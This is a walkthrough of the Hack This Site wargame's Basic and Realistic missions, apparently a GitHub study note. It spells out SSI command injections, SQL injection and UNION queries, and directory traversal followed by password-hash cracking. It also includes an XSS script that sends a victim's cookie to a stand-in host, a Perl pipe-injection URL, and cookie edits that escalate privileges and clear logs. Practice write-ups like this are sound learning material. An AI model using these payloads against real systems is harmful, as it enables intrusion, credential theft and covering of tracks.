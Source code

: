 # [Hack This Site](https://www.hackthissite.org)

## Basic

1. (HTML) Password is written in source code
2. (-) Enter blank password
3. (HTML) Password file name is written in source code => go read it
4. (HTML) The email address can be edited in the source to mail the password to yourself
    * Save the file on desktop, edit the email and click
5. (Javascript) Same as 4 + the URL referrer is checked by the server
    * Use javascript or Firefox console to modify the value of the element on the fly
    * or Same as 4 + spoof referrer using Firefox extension (RefControl)
6. (Ascii) Simple encryption scheme where every character is shifted by 1,2,3,etc (see Vigenère cypher)
7. (Unix) Append ls at the end of the command input to get the name of the password file
8. (SSI) Notice how the file ends with .shtml, which allows the execution of shell commands
    * Don't forget to go up one level to get to the password file
    * <!--#exec cmd="ls .." -->
9. (SSI, DT) Directory access is limited, but you can still use the input box from level 8 to access the 9th mission specifically
    * <!--#exec cmd="ls ../../9" -->
10. (Cookies) Password is irrelevant, the login is verified via a cookie that can easily be edited using Javascript
11. (Apache) Login page is located at very common index.php. The trick is finding the directory structure, given away by Elton John songs
    * Access the .htaccess file in /e/... to get to a hidden file containing the password, literally

## Realistic

1. (HTML) The dropdown values can be edited client-side to absurdely high amount allowing the cheating of the poll
2. (SQL Inj.) Check source for login page, then perform a basic SQL injection, e.g. ' or '1'='1
3. (DT) Check the source to locate the old website. From there, find a way to save the old page in place of the hacked one.
    * No need for Unix commands here, simply let the (old site poem) file creation script do the job by pasting/submitting the source of _oldindex.html_ under the name `../index.html`
4. (SQL Inj.) Submitting an incorrect email provides the name of the customers table 'email'
    * Now, toying with the URL on the products page tells us that 4 fields are expected from the query
    * Eg `1 UNION ALL SELECT 1,1,1,1`
    * Using an UNION, we can elaborate a query returning 4 fields from table 'email'
    * E.g. `?category=1 UNION ALL SELECT email,email,email,email from email` (or `?category=1 UNION ALL SELECT *,*,*,* from email` since that table  appears to only hold a single _email_ field)
    * Now just go the HTS Message Center on the homepage of HTS and post the list to SaveTheWhales
5. (Robots.txt, Hash crack) Exploring the file system, there are multiple things to notice:
    * There are a couple of hints that a robots.txt file is present to fend off search engines crawlers
    * Accessing that file shows the presence of the two directories "lib" and "secret" (also given away in the Database page source)
    * Then it is just a matter of retrieving the hash, (optional: identifying its type) and cracking it e.g. using online tools
6. (Crypto) XECryption decryption algorithm is as follows: add numbers together 3 by 3, perform frequency analysis to get the code of 'space' character
    * Subtract 32 (Ascii code for 'space' character) to the code and get the key
    * Subtracting the key from each number in the list gives the Ascii code of each character in the message => display char() of each numbe
7. (Apache, DT, Cracking) Browsing the source of the main page reveals the presence of the images/ directory and the showimages.php page that contains a vulnerability
    * Within the images/ direct lies another directory: admin/. Upon accessing it, we can realize it is protected using a Apache configuration .htpasswd file
    * Although we won't be able to access it directly, knowing it exists allows us to try and reach its content via a GET parameter to the showimages.php page
    * Once we get the content of the .htpasswd file, we can just pass it directly to a cracking program such as JohnTheRipper that will reveal the login/password
8. (SQL Inj, Cookie, Javascript) In order to find the login name of GaryHunter we can perform an SQL injection on the search.php page to return all the users.
    * Once we have the login name, we can create an account and login, then edit the cookie to switch the login name: document.cookie="accountUsername=GaryWilliamHunter";
    * The last part requires to change the "Clear personal files" button HTML value to "logFiles" in order to clear the system (and not personal) log files.
9. (XSS, DT, Cookie)  We need to use a XSS vulnerability in the website messaging system to retrieve the login cookie of the boss, however it's beyond the scope of the exercise to actually implement the cookie stealer PHP script
    * In order to do so, we can login using <r-conner@crappysoft.com> credentials and send a message to the boss using the following client-side scrit injection
    * `<script>window.location = "http://my.website.com/cookiesteal.php?c="+document.cookie</script>` => Get the cookie data and replace own cookie with it
    * document.cookie="strUsername=m-crap%40crappysoft.com;"
    * document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c";
    * document.cookie="intID=1";
    * In order to clear the logs, the mailing list page informs use that it contains a script that automatically deletes all the lines from the file exempt of '@'
    * Note how the file to update is specified in the HTML, thus we can edit it with the path to the logs file, which can be found in the directory hierarchy
10. (Soc. Eng., User Agent, Cookie) In this exercise, the credentials given by the student are never used. Instead, the listing of teachers displays their email, which is composed of their username.
    * By trying out every username on the teacher login page, we find out that one uses her username as password (smill/smiller)
    * Once we have successfully logged on, we are warned that the browser should be a specific one. Circumventing this restriction is done with a user-agent switcher.
    * Now, we need to edit the cookie to gain administrative powers and access the student grades.
    * A final step consists in getting the update URL for each low grades in the source code and simply pasting it in the address bar to run the update script.
11. (Perl) Notice that the way the pages are served is via a Perl script. By using an unexisting page name, it mentions the open() Perl method
    * This method is susceptible to a hack when providing a pipe '|' along with a command in the filename, the command will be executed (via process forking).
    * So we must try to reach this configuration: open(myfile, "ls -l|"); that will make the result of "ls -l" the content of the file displayed by the script.
    * However, we have to work within the restriction of the syntax open(file, "pages/[GET param]");
    * Use a first pipe '|' to pass the page parameter along to ls (effectively disregarding it) and a second one to direct the output of ls to us => page.pl?page=|ls|
    * This provides us with the files in the current directory. Two items are noteworthy: client_http_docs/ and bs.dbase.
    * The directory client_http_docs/ directory contains the hosted website. Looking around, one of the website might allow us into the root DB.
    * On the Radio website, there is script that logs browser visits as logging.html. Here we are supposed to switch user-agent to gain access to an account.
    * However just using account nr 0, we can edit the password and log as a mod (aclu_bomber_08290/change password). This gives us access to a SQLLite command line.
    * It is easy to Google the query listing all tables: SELECT name FROM sqlite_master WHERE type='table';
    * But we don't really want to run this on the Radio website database since it's local. We can actually branch the query script onto the main DB.
    * Changing the target DB in the HTML (and going up 2 ../ levels + 1 ../ more because of the db/ prefix in the script), we access the main DB.
    * SELECT * from web_hosting provides us with the customer accounts, that we can use to log in the admin page (access found under the FAQ section)
    * Once we're logged, we notice that we can't access space46 website directly, but we can browse and download any other resource from the other hoster websites.
    * When we try to download a file, it is served via a d.pl script. Downloading an image will direct to d.pl?file=path/imagefile.jpg. Let us change this to space46/src.tar.gz.
